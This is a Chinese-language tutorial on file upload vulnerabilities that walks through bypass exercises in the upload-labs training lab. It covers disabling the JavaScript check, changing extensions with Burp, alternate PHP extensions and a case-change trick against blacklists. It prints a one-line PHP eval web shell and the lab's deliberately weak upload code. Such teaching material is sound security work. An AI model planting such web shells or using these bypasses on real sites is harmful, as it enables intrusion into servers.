 ```yaml
---
slug: /net-security/08/01
---
```


## 概念

文件上传是常用功能，但恶意文件的上传会形成漏洞。

主要形成是：后端接受了恶意文件上传并保存，受害者访问该恶意文件时，其中的恶意代码被 Web 容器执行。

<br />

常见场景：

1. 上传头像

2. 上传相册

3. 上传附件

4. 添加文章图片

5. 前台留言资料上传

6. 编辑器文件上传

7. ###### ……

<br />

安装靶场

```bash
docker pull cuer/upload-labs
docker run -d -p 8082:80 --name upload-labs cuer/upload-labs
```



## 客户端 - JS 绕过

### 禁用 JavaScript

打开靶场的 Pass-01，点击右上角「查看源码」，这里的文件上传存在 JS 限制，并且只允许 `.jpg`, `.png`, `.gif`

```php
function checkFile() {
    var file = document.getElementsByName('upload_file')[0].value;
    if (file == null || file == "") {
        alert("请选择要上传的文件!");
        return false;
    }
    //定义允许上传的文件类型
    var allow_ext = ".jpg|.png|.gif";
    //提取上传文件的类型
    var ext_name = file.substring(file.lastIndexOf("."));
    //判断上传文件类型是否允许上传
    if (allow_ext.indexOf(ext_name + "|") == -1) {
        var errMsg = "该文件不允许上传，请上传" + allow_ext + "类型的文件,当前文件类型为：" + ext_name;
        alert(errMsg);
        return false;
    }
}
```

在上传前先禁用掉 JavaScript

![](http://img.wukaipeng.com/2023/1017-075949-image-20231017075948931.png)

首先我们上传文件 `info.php`，内容是输出 php 信息：

```php
<?php phpinfo(); ?>
```

![](http://img.wukaipeng.com/2023/10/19-070309-image-20231019070309633.png)我们也可以上传 `get.php`，直接用参数控制输出

```php
<?php eval(@$_GET['cmd']); ?>
```

![](http://img.wukaipeng.com/2023/10/19-071303-image-20231019071303290.png)

### 修改后缀名

先把 `get.php` 修改为符合上传要求 👉 `get.png`，然后用 Burp 抓包改回原来的 `get.php`

![](http://img.wukaipeng.com/2023/10/19-071741-image-20231019071740872.png)



### 修改前端代码

删除 `onsubmit` 方法，这种方式仅在 FireFox 生效：

![](http://img.wukaipeng.com/2023/10/19-072230-image-20231019072230409.png)

## 服务端 - 黑名单绕过

### 特殊后缀

使用 Pass-03，这里后端无法上传的黑名单包括 `.asp`, `.aspx`, `.php`, `.jsp`。



```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array('.asp','.aspx','.php','.jsp');
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = strtolower($file_ext); //转换为小写
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //收尾去空

        if(!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;            
            if (move_uploaded_file($temp_file,$img_path)) {
                 $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '不允许上传.asp,.aspx,.php,.jsp后缀文件！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```

可以使用其他后缀，比如：`.phtml`, `.phps`, `php5`, `.pht`

> 这些后缀文件需要被执行的话有前提条件是， Apache 需要做一些配置代码

### 大小写绕过

使用 Pass-06，上传 `get.PHP` 就能绕过

```php
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array(".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml",".jsp",".jspa",".jspx",".jsw",".jsv",".jspf",".jtml",".jSp",".jSpx",".jSpa",".jSw",".jSv",".jSpf",".jHtml",".asp",".aspx",".asa",".asax",".ascx",".ashx",".asmx",".cer",".aSp",".aSpx",".aSa",".aSax",".aScx",".aShx",".aSmx",".cEr",".sWf",".swf",".htaccess",".ini");
        $file_name = trim($_FILES['upload_file']['name']);
        $file_name = deldot($file_name);//删除文件名末尾的点
        $file_ext = strrchr($file_name, '.');
        $file_ext = str_ireplace('::$DATA', '', $file_ext);//去除字符串::$DATA
        $file_ext = trim($file_ext); //首尾去空

        if (!in_array($file_ext, $deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH.'/'.date("YmdHis").rand(1000,9999).$file_ext;
            if (move_uploaded_file($temp_file, $img_path)) {
                $is_upload = true;
            } else {
                $msg = '上传出错！';
            }
        } else {
            $msg = '此文件类型不允许上传！';
        }
    } else {
        $msg = UPLOAD_PATH . '文件夹不存在,请手工创建！';
    }
}
```































